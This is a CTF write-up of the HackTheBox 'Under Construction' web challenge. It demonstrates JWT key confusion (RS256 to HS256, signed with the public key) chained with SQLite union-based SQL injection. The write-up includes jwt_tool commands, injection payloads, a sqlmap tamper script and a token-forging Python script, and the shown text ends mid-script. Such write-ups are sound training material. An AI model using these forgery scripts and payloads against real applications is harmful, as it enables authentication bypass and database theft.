

# HackTheBox(HTB) - Under Construction - WriteUp

> Austin Lai | October 25th, 2021

---

<!-- Description -->


Difficulty: Medium

The room is completed on October 24th, 2021

```text
A company that specializes in web development is creating a new site that is currently under construction. Can you obtain the flag?

- Enumeration
- Cookie
- JWT
- JWT Key Confusion
- SQL Injection
- sqlite database
- sqlmap
- sqlmap tamper script
```

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [HackTheBox(HTB) - Under Construction - WriteUp](#hacktheboxhtb---under-construction---writeup)
    - [Table of Contents](#table-of-contents)
    - [Let's Begin Here !!!](#lets-begin-here-)
        - [Automate method using SQLMap along with forged JWT](#automate-method-using-sqlmap-along-with-forged-jwt)
        - [Python script to forge JWT along with SQLi payload](#python-script-to-forge-jwt-along-with-sqli-payload)

<!-- /TOC -->

---

## Let's Begin Here !!!

Start the instance and download files given on the box.

The zip file given called "UnderConstruction.zip" with the content of source code as shown below:



It is recommend to inspect all the source code especially ` index.js `, ` AuthMiddleware.js `, ` DBHelper.js `, and ` JWTHelper.js `.

Inspection of source code allow you to have better understanding on how the application work and the flow of it.

However, we have jump to the login page right away.


Checking across gobuster and basic enumeration, there is nothing to be found.

We decide to create new user and tried login (of course, we have tried login with random username as well but no luck with that - which include common admin login)

Create new user:


Login with the new user we just created:


Immediately we notice strange usage of cookie here,a we decide to check what is the cookie using [JSON Web Tokens - jwt.io](https://jwt.io/)

The cookie is a form of JWT (JSON Web Token) which contain a public key inside:


Next, we extracted the public key and verify our JWT, the signature of JWT verified as below:


That is interesting, we research with our best friend - Google, right a way we found some cool article regarding "[Hacking JWT Verification Key](https://blog.pentesteracademy.com/hacking-jwt-tokens-verification-key-mismanagement-iv-582601f9d8ac)"


Basically, if you have JWT include public key and the public key can be used to verify current JWT.

It is very likely the developer using RSA asymmetric algorithm that signed the data with a private key, verified with the corresponding public key.

You may refer to [here - Hacking JSON Web Tokens (JWTs)](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a) for more information.

The exploit of this is to bypass JWT control by changing the algorithm type of JWT:

- no algorithm
- HMAC algorithm, a.k.a Key Confusion exploit

We are using HMAC algorithm (key confusion exploit) as based on the ` JWTHelper.js ` source code, developer is using both RSA and HMAC to decode JWT and we can leveraging this to bypass the control by changing the algorithm to HMAC, then we will be able to create valid tokens by signing the forged tokens with the public key. This is because originally when the token is signed with private key that is a key pair along with public key, the program verifies it with the public key. When the signing algorithm is switched to HMAC, the token is still verified with the public key, but this time, the token can be signed with the same public key B (since it’s using HMAC).


Now we know that the application is vulnerable to JWT Key Confusion attack and we understand how to bypass it.

Next, we will be using the tool called [jwt-tool by ticarpi](https://github.com/ticarpi/jwt_tool).

Starting with the tool using command set below:

```bash
git clone https://github.com/ticarpi/jwt_tool
cd jwt-tool
python3 -m pip install -r requirement.txt
```

Before we continue, please ensure you have the public key ready by saving it to a file for later use.

The command to forge a valid token as below:

```bash
# python3 jwt_tool.py -v YOUR_JWT_HERE -X k -pk YOUR_PUBLIC_KEY_FILE_HERE -I -pc username -pv "test"
# -v to enable verbose mode
# -X is to enable exploit with mode 'k' which is key confusion exploit, it will automatically change the forged token to HMAC
# -pk is to specify the public key
# -I is to enable Injection mode
# -pc is the payload name
# -pv is the payload value
```

We use 'username' as payload name because based on ` AuthMiddleware.js ` source and as well as the decoded JWT from above show it only contain username as part of data.


Below is of PoC payload to test our forged JWT token is valid.

```bash
python3 jwt_tool.py -v eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGsiOiItLS0tLUJFR0lOIFBVQkxJQyBLRVktLS0tLVxuTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE5NW9UbTlETnpjSHI4Z0xoalphWVxua3RzYmoxS3h4VU9vencwdHJQOTNCZ0lwWHY2V2lwUVJCNWxxb2ZQbFU2RkI5OUpjNVFaMDQ1OXQ3M2dnVkRRaVxuWHVDTUkyaG9VZkoxVm1qTmVXQ3JTckRVaG9rSUZaRXVDdW1laHd3dFVOdUV2MGV6QzU0WlRkRUM1WVNUQU96Z1xuaklXYWxzSGovZ2E1WkVEeDNFeHQwTWg1QUV3YkFENzMrcVhTL3VDdmhmYWpncHpIR2Q5T2dOUVU2MExNZjJtSFxuK0Z5bk5zak5Od281blJlN3RSMTJXYjJZT0N4dzJ2ZGFtTzFuMWtmL1NNeXBTS0t2T2dqNXkwTEdpVTNqZVhNeFxuVjhXUytZaVlDVTVPQkFtVGN6Mncya3pCaFpGbEg2Uks0bXF1ZXhKSHJhMjNJR3Y1VUo1R1ZQRVhwZENxSzNUclxuMHdJREFRQUJcbi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLVxuIiwiaWF0IjoxNjM1MTQyMzA1fQ.s-vIxBjepPgxrKTfvd7eRWJNZnnsaUxmhoiv1ZAu39iuEvZ3f2_9Pp2BcruaCnP5nyUsi0XgW1Mx49c2M7qW-nQXLgy9H4pEARzNrcB6wcQCHuDhwIVIgtjqDvWCQWKH9Hht0b7lc19CQDipGGlW8E4TFNVmV0NuMg6-dF48L3v4aFa7ZEt6xO8ah28QVpyr2q1Dz2efHsQhAWn_DsIPK1Y1rXtV3xmR1nzfn1pEkaBZ1iY4IPn1N4JbbQWQxtRQoyxIOV2jXS5W20j5qpk9uE3za5_XRL6Ie3szbg5D-1jgdgJQC3giZbr6vapxLJMNgRykUcy7_oQJCZzi8cdr4A -X k -pk ../public_key -I -pc username -pv "admin"
```


<details><summary>jwt_tool - forging JWT</summary>

```bash
"

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.4                \______|             @ticarpi

Original JWT:

Token: {"alg":"RS256","typ":"JWT"}.{"username":"admin","pk":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n","iat":1635142305}.s-vIxBjepPgxrKTfvd7eRWJNZnnsaUxmhoiv1ZAu39iuEvZ3f2_9Pp2BcruaCnP5nyUsi0XgW1Mx49c2M7qW-nQXLgy9H4pEARzNrcB6wcQCHuDhwIVIgtjqDvWCQWKH9Hht0b7lc19CQDipGGlW8E4TFNVmV0NuMg6-dF48L3v4aFa7ZEt6xO8ah28QVpyr2q1Dz2efHsQhAWn_DsIPK1Y1rXtV3xmR1nzfn1pEkaBZ1iY4IPn1N4JbbQWQxtRQoyxIOV2jXS5W20j5qpk9uE3za5_XRL6Ie3szbg5D-1jgdgJQC3giZbr6vapxLJMNgRykUcy7_oQJCZzi8cdr4A

Token: {"alg":"RS256","typ":"JWT"}.{"username":"admin","pk":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n","iat":1635142305}.s-vIxBjepPgxrKTfvd7eRWJNZnnsaUxmhoiv1ZAu39iuEvZ3f2_9Pp2BcruaCnP5nyUsi0XgW1Mx49c2M7qW-nQXLgy9H4pEARzNrcB6wcQCHuDhwIVIgtjqDvWCQWKH9Hht0b7lc19CQDipGGlW8E4TFNVmV0NuMg6-dF48L3v4aFa7ZEt6xO8ah28QVpyr2q1Dz2efHsQhAWn_DsIPK1Y1rXtV3xmR1nzfn1pEkaBZ1iY4IPn1N4JbbQWQxtRQoyxIOV2jXS5W20j5qpk9uE3za5_XRL6Ie3szbg5D-1jgdgJQC3giZbr6vapxLJMNgRykUcy7_oQJCZzi8cdr4A

File loaded: ../public_key
jwttool_f31eb7c5d8e405c983c5e7b87e40c624 - EXPLOIT: Key-Confusion attack (signing using the Public Key as the HMAC secret)
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGsiOiItLS0tLUJFR0lOIFBVQkxJQyBLRVktLS0tLVxuTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE5NW9UbTlETnpjSHI4Z0xoalphWVxua3RzYmoxS3h4VU9vencwdHJQOTNCZ0lwWHY2V2lwUVJCNWxxb2ZQbFU2RkI5OUpjNVFaMDQ1OXQ3M2dnVkRRaVxuWHVDTUkyaG9VZkoxVm1qTmVXQ3JTckRVaG9rSUZaRXVDdW1laHd3dFVOdUV2MGV6QzU0WlRkRUM1WVNUQU96Z1xuaklXYWxzSGovZ2E1WkVEeDNFeHQwTWg1QUV3YkFENzMrcVhTL3VDdmhmYWpncHpIR2Q5T2dOUVU2MExNZjJtSFxuK0Z5bk5zak5Od281blJlN3RSMTJXYjJZT0N4dzJ2ZGFtTzFuMWtmL1NNeXBTS0t2T2dqNXkwTEdpVTNqZVhNeFxuVjhXUytZaVlDVTVPQkFtVGN6Mncya3pCaFpGbEg2Uks0bXF1ZXhKSHJhMjNJR3Y1VUo1R1ZQRVhwZENxSzNUclxuMHdJREFRQUJcbi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLVxuIiwiaWF0IjoxNjM1MTQyMzA1fQ.RlwbDFJpNLOuf5CsMI3Y3m3n47DTBo0NoLNL7zZbp6I
```

</details>

Now we have our forged JWT token, we can change the cookie to ours and below is the result:


With our forged JWt token working, we can include basic SQL injection as part of our payload to enumerate the Database.

Of course, you can write your own python script to forged the JWT with custom payload as well.

Or you may use tool like sqlmap to automate the enumeration of SQL.

We using manual method here.

To determine number of column by using ` ' ORDER BY 5--+ `

```
python3 jwt_tool.py -v eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGsiOiItLS0tLUJFR0lOIFBVQkxJQyBLRVktLS0tLVxuTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE5NW9UbTlETnpjSHI4Z0xoalphWVxua3RzYmoxS3h4VU9vencwdHJQOTNCZ0lwWHY2V2lwUVJCNWxxb2ZQbFU2RkI5OUpjNVFaMDQ1OXQ3M2dnVkRRaVxuWHVDTUkyaG9VZkoxVm1qTmVXQ3JTckRVaG9rSUZaRXVDdW1laHd3dFVOdUV2MGV6QzU0WlRkRUM1WVNUQU96Z1xuaklXYWxzSGovZ2E1WkVEeDNFeHQwTWg1QUV3YkFENzMrcVhTL3VDdmhmYWpncHpIR2Q5T2dOUVU2MExNZjJtSFxuK0Z5bk5zak5Od281blJlN3RSMTJXYjJZT0N4dzJ2ZGFtTzFuMWtmL1NNeXBTS0t2T2dqNXkwTEdpVTNqZVhNeFxuVjhXUytZaVlDVTVPQkFtVGN6Mncya3pCaFpGbEg2Uks0bXF1ZXhKSHJhMjNJR3Y1VUo1R1ZQRVhwZENxSzNUclxuMHdJREFRQUJcbi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLVxuIiwiaWF0IjoxNjM1MTQyMzA1fQ.s-vIxBjepPgxrKTfvd7eRWJNZnnsaUxmhoiv1ZAu39iuEvZ3f2_9Pp2BcruaCnP5nyUsi0XgW1Mx49c2M7qW-nQXLgy9H4pEARzNrcB6wcQCHuDhwIVIgtjqDvWCQWKH9Hht0b7lc19CQDipGGlW8E4TFNVmV0NuMg6-dF48L3v4aFa7ZEt6xO8ah28QVpyr2q1Dz2efHsQhAWn_DsIPK1Y1rXtV3xmR1nzfn1pEkaBZ1iY4IPn1N4JbbQWQxtRQoyxIOV2jXS5W20j5qpk9uE3za5_XRL6Ie3szbg5D-1jgdgJQC3giZbr6vapxLJMNgRykUcy7_oQJCZzi8cdr4A -X k -pk ../public_key -I -pc username -pv "admin' ORDER BY 5--+"
```

And we get error below:

```
Error: SQLITE_ERROR: 1st ORDER BY term out of range - should be between 1 and 3
```

From the error message, we know that:

- it is a sqlite database
- current database contain 3 column

Next, we need to extract table name.

After research awhile, we finally get the understanding that SQlite does not have information_schema like MySQL, instead it use sqlite_master.

Within sqlite_master, there is a schema call ` tbl_name `

Below is the payload we use to extract table name from sqlite_master:

```
python3 jwt_tool.py -v eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGsiOiItLS0tLUJFR0lOIFBVQkxJQyBLRVktLS0tLVxuTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE5NW9UbTlETnpjSHI4Z0xoalphWVxua3RzYmoxS3h4VU9vencwdHJQOTNCZ0lwWHY2V2lwUVJCNWxxb2ZQbFU2RkI5OUpjNVFaMDQ1OXQ3M2dnVkRRaVxuWHVDTUkyaG9VZkoxVm1qTmVXQ3JTckRVaG9rSUZaRXVDdW1laHd3dFVOdUV2MGV6QzU0WlRkRUM1WVNUQU96Z1xuaklXYWxzSGovZ2E1WkVEeDNFeHQwTWg1QUV3YkFENzMrcVhTL3VDdmhmYWpncHpIR2Q5T2dOUVU2MExNZjJtSFxuK0Z5bk5zak5Od281blJlN3RSMTJXYjJZT0N4dzJ2ZGFtTzFuMWtmL1NNeXBTS0t2T2dqNXkwTEdpVTNqZVhNeFxuVjhXUytZaVlDVTVPQkFtVGN6Mncya3pCaFpGbEg2Uks0bXF1ZXhKSHJhMjNJR3Y1VUo1R1ZQRVhwZENxSzNUclxuMHdJREFRQUJcbi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLVxuIiwiaWF0IjoxNjM1MTQyMzA1fQ.s-vIxBjepPgxrKTfvd7eRWJNZnnsaUxmhoiv1ZAu39iuEvZ3f2_9Pp2BcruaCnP5nyUsi0XgW1Mx49c2M7qW-nQXLgy9H4pEARzNrcB6wcQCHuDhwIVIgtjqDvWCQWKH9Hht0b7lc19CQDipGGlW8E4TFNVmV0NuMg6-dF48L3v4aFa7ZEt6xO8ah28QVpyr2q1Dz2efHsQhAWn_DsIPK1Y1rXtV3xmR1nzfn1pEkaBZ1iY4IPn1N4JbbQWQxtRQoyxIOV2jXS5W20j5qpk9uE3za5_XRL6Ie3szbg5D-1jgdgJQC3giZbr6vapxLJMNgRykUcy7_oQJCZzi8cdr4A -X k -pk ../public_key -I -pc username -pv "admin' union select 1,group_concat(tbl_name),3 from sqlite_master -- -"
```

Table name shown below:


Now we need to find out number of column of this "flag_storage" table

This took me quite awhile for research and understand the sqlite, there is another schema here called ` sql ` within sqlite_master for us to enumerate columns.

You can check out [here - SQLITE INJECTION](https://hydrasky.com/network-security/sqlite-injection/) for detail information.

Below is the payload we use to extract column name from sqlite_master:

```
python3 jwt_tool.py -v eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGsiOiItLS0tLUJFR0lOIFBVQkxJQyBLRVktLS0tLVxuTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE5NW9UbTlETnpjSHI4Z0xoalphWVxua3RzYmoxS3h4VU9vencwdHJQOTNCZ0lwWHY2V2lwUVJCNWxxb2ZQbFU2RkI5OUpjNVFaMDQ1OXQ3M2dnVkRRaVxuWHVDTUkyaG9VZkoxVm1qTmVXQ3JTckRVaG9rSUZaRXVDdW1laHd3dFVOdUV2MGV6QzU0WlRkRUM1WVNUQU96Z1xuaklXYWxzSGovZ2E1WkVEeDNFeHQwTWg1QUV3YkFENzMrcVhTL3VDdmhmYWpncHpIR2Q5T2dOUVU2MExNZjJtSFxuK0Z5bk5zak5Od281blJlN3RSMTJXYjJZT0N4dzJ2ZGFtTzFuMWtmL1NNeXBTS0t2T2dqNXkwTEdpVTNqZVhNeFxuVjhXUytZaVlDVTVPQkFtVGN6Mncya3pCaFpGbEg2Uks0bXF1ZXhKSHJhMjNJR3Y1VUo1R1ZQRVhwZENxSzNUclxuMHdJREFRQUJcbi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLVxuIiwiaWF0IjoxNjM1MTU3NzE4fQ.5rlAlJYu_SUKPpzcSet4q4Aq5AOljUmyqCOKT6wzMp-TyGuVNUQPRIsFrSKav2k7pE14X7W1zz4Aee8H1gfAaEnVNO9qnxNP3KZl5sqf760SJAkphnMVrrFdT00RWa7otbEdEdxvn8c7LzpKAvlWlvlNmdqNg5C2yAcwqEOZYGcLJxw1zj33MVbeTKV_Pdq8jzA4LrAgPOGdZ_skpKQCINp5IUWj27mByaGyYd9Dhtepwnuujv7ju99rj0naMuL6dkdYT6Hn-q6lFt8CMkQOYRze4Skgh1goKOI2nzJJY-srrtLIZ7aeoLinYX8X7M1YRTkIyMcTuxEVnNkVrs8DUw -X k -pk ../public_key -I -pc username -pv "admin' union select null,sql,null from sqlite_master -- -"
```

Column name and information shown as below:


From the result we know that current database with the table called ` flag_storage ` and within it, we have columns name called ` id ` and ` top_secret_flaag `

Time to get our flag !

Below is the payload we use to get the flag:

```
python3 jwt_tool.py -v eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGsiOiItLS0tLUJFR0lOIFBVQkxJQyBLRVktLS0tLVxuTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUE5NW9UbTlETnpjSHI4Z0xoalphWVxua3RzYmoxS3h4VU9vencwdHJQOTNCZ0lwWHY2V2lwUVJCNWxxb2ZQbFU2RkI5OUpjNVFaMDQ1OXQ3M2dnVkRRaVxuWHVDTUkyaG9VZkoxVm1qTmVXQ3JTckRVaG9rSUZaRXVDdW1laHd3dFVOdUV2MGV6QzU0WlRkRUM1WVNUQU96Z1xuaklXYWxzSGovZ2E1WkVEeDNFeHQwTWg1QUV3YkFENzMrcVhTL3VDdmhmYWpncHpIR2Q5T2dOUVU2MExNZjJtSFxuK0Z5bk5zak5Od281blJlN3RSMTJXYjJZT0N4dzJ2ZGFtTzFuMWtmL1NNeXBTS0t2T2dqNXkwTEdpVTNqZVhNeFxuVjhXUytZaVlDVTVPQkFtVGN6Mncya3pCaFpGbEg2Uks0bXF1ZXhKSHJhMjNJR3Y1VUo1R1ZQRVhwZENxSzNUclxuMHdJREFRQUJcbi0tLS0tRU5EIFBVQkxJQyBLRVktLS0tLVxuIiwiaWF0IjoxNjM1MTU3NzE4fQ.5rlAlJYu_SUKPpzcSet4q4Aq5AOljUmyqCOKT6wzMp-TyGuVNUQPRIsFrSKav2k7pE14X7W1zz4Aee8H1gfAaEnVNO9qnxNP3KZl5sqf760SJAkphnMVrrFdT00RWa7otbEdEdxvn8c7LzpKAvlWlvlNmdqNg5C2yAcwqEOZYGcLJxw1zj33MVbeTKV_Pdq8jzA4LrAgPOGdZ_skpKQCINp5IUWj27mByaGyYd9Dhtepwnuujv7ju99rj0naMuL6dkdYT6Hn-q6lFt8CMkQOYRze4Skgh1goKOI2nzJJY-srrtLIZ7aeoLinYX8X7M1YRTkIyMcTuxEVnNkVrs8DUw -X k -pk ../public_key -I -pc username -pv "admin' union select null,top_secret_flaag,null from flag_storage -- -"
```


<br /><br />

### Automate method using SQLMap along with forged JWT

Of course, above method is manual and time consuming.

We can leveraging tool like sqlmap to perform auto enumeration and dumping our flag.

In order for the exploit to work in conjunction sqlmap, there is one more item we have to craft --- which is the tamper scripts.

You can refer to [here - ATTACKING JWT’S WITH A CUSTOM SQLMAP TAMPER SCRIPT
AUTOMATING THE ATTACK WITH SQLMAP AND A CUSTOM TAMPER SCRIPT](https://www.craftypenguins.net/capture-the-flag-ctf-challenge-part-5/)

The [sqlmap - custom tamper script for forging JWT](custom-tamper.py) and also shown as below:

<details><summary>sqlmap - custom tamper script for forging JWT</summary>

```python
#!/usr/bin/env python3
 
import logging
import json
import hmac
from base64 import b64encode, b64decode
from lib.core.enums import PRIORITY
 
"""
Tamper script that encodes the sqlmap payload in the JWT payload
and re-signs the JWT with the public key.
"""
 
# Define which is the order of application of tamper scripts against the payload
__priority__ = PRIORITY.NORMAL
 
# output using the sqlmap internal logger
log2 = logging.getLogger("sqlmapLog")
 
# hard coded public key taken from the original JWT
public_key = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n"
iat = 1635152889
 
 
def create_signed_token(key, data):
    """
    Creates a complete JWT token with 'data' as the JWT payload.
    Exclusively uses sha256 HMAC.
    """
    # create base64 header
    header = json.dumps({"typ":"JWT","alg":"HS256"}).encode()
    b64header = b64encode(header).rstrip(b'=')

    # create base64 payload 
    payload = json.dumps(data).encode()
    b64payload = b64encode(payload).rstrip(b'=')
 
    # put the header and payload together
    hdata = b64header + b'.' + b64payload
 
    # create the signature
    verifySig = hmac.new(key, msg=hdata, digestmod='sha256')
    verifySig = b64encode(verifySig.digest())
    verifySig = verifySig.replace(b'/', b'_').replace(b'+', b'-').strip(b'=')
 
    # put the header, payload and signature together
    token = hdata + b'.' + verifySig
    return token
 
 
def craftExploit(payload):
    pk = public_key.encode()
 
    # put the sqlmap payload in the data
    data = {"username": payload, "iat": iat}
    log2.info(json.dumps(data, separators=(',',':')))
 
    token = create_signed_token(pk, data)
    return token.decode('utf-8')
 
 
def tamper(payload, **kwargs):
    """
    This is the entry point for the script.  sqlmap calls tamper() for every payload.
    Encodes the sqlmap payload in the JWT payload
    and re-signs the JWT with the public key.
    """
    # create a new payload jwt token re-signed with HS256
    retVal = craftExploit(payload)
 
    #log2.info(json.dumps({"payload": payload}))
 
    # return the tampered payload
    return retVal
```

</details>

As we know the table name from the initial enumeration, we can simply the process to dump our flag using sqlmap command below:

```bash
# --cookie "session=*", the * instruct sqlmap to perform the injection
# As we know the database is sqlite, we can set "--dbms sqlite3"
# "--risk 3 --level=2" - Level 2 attacks cookies. The higher risk increases the chance that an injection will make changes to the database.
# "--tamper custom-tamper.py" - Use my custom tamper script
# "--dump" - to dump
# -o to enable optimization mode
# -T to enumerate the tables

sqlmap -u  http://188.166.173.208:30345  --cookie "session=*" --dbms sqlite3 --risk 3 --level=2 --tamper custom-tamper.py --dump -o -T flag_storage
```

Below is the result of sqlmap:


<details><summary>sqlmap result</summary>

```
┌─[root@austin-helper] - [/mnt/c/Users/austin/Desktop/HackTheBox-UnderConstruction-Completed] - [Mon Oct 25, 19:56]
└─[$]> sqlmap -u  http://188.166.173.208:30345  --cookie "session=*" --dbms sqlite3 --risk 3 --level=2 --tamper custom-tamper.py --dump -o -T flag_storage
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.10#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:59:09 /2021-10-25/

[19:59:09] [INFO] loading tamper module 'custom-tamper'
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] n
[19:59:16] [INFO] testing connection to the target URL
[19:59:17] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
[19:59:17] [INFO] testing NULL connection to the target URL
[19:59:17] [INFO] NULL connection is supported with HEAD method ('Content-Length')
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: session (Cookie)
    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: session=*' UNION ALL SELECT NULL,CHAR(113,106,112,112,113)||CHAR(101,117,107,111,76,89,100,66,79,73,84,114,73,99,101,108,97,74,109,100,71,117,100,78,106,84,121,82,74,101,100,84,117,89,88,73,108,110,101,107)||CHAR(113,107,122,118,113),NULL-- yXIa
---
[19:59:17] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[19:59:17] [INFO] testing SQLite
[19:59:18] [INFO] confirming SQLite
[19:59:18] [INFO] actively fingerprinting SQLite
[19:59:18] [INFO] the back-end DBMS is SQLite
web application technology: Express
back-end DBMS: SQLite
[19:59:18] [INFO] fetching columns for table 'flag_storage'
[19:59:18] [INFO] fetching entries for table 'flag_storage'
Database: <current>
Table: flag_storage
[1 entry]
+----+---------------------------------+
| id | top_secret_flaag                |
+----+---------------------------------+
```

</details>


### Python script to forge JWT along with SQLi payload

Shout out and credit to [bgeunjo](https://velog.io/@bgeunjo) - [[HTB] Web Challenge - Under Construction](https://velog.io/@bgeunjo/HTB-Web-Challenge-Under-Construction)

The author does an excellent job and given with the python script.

Modify version of the python script - [exploit-jwt-confusion](exploit-jwt-confusion.py) as well as shown below:

<details><summary> Python script to forge JWT along with SQLi payload</summary>

```python
import base64
import binascii
import time
import jwt
import hashlib
import hmac
import json
import requests


# -------------------------token_part-------------------------
# change algo from RS256 to HS256
# and make fake signature <= base64(hmac-sha256(header+payload))

public_key="""-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY
ktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi
XuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg
jIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH
+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx
V8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr
0wIDAQAB
-----END PUBLIC KEY-----
""" # last \n(0x0a) is needed!!! 

now=int(time.time())

header={
    "alg":"HS256",
    "typ":"JWT"
}

payload={
    "username": "gues' UNION SELECT NULL,top_secret_flaag as username,NULL from flag_storage-- ",    #Using username, we can fake identity and sql injection
    "pk":public_key,
    "iat": now
}

jwt_header=base64.b64encode(json.dumps(header).replace(" ","").encode()).decode().replace('=','') # make jwt_header
jwt_payload=base64.urlsafe_b64encode(json.dumps(payload).encode()).decode().replace('=','') # make jwt_payload

to_sign=bytes(jwt_header+"."+jwt_payload, 'utf-8') # we will make signature using this

#hex_key=binascii.hexlify(public_key.encode()) 

signature=hmac.new(public_key.encode(),to_sign,hashlib.sha256).hexdigest() # make hmac-sha256
signature=binascii.a2b_hex(signature)
signature=base64.urlsafe_b64encode(signature).decode().replace('=','') # signature -> base64

token=jwt_header+"."+jwt_payload+"."+signature

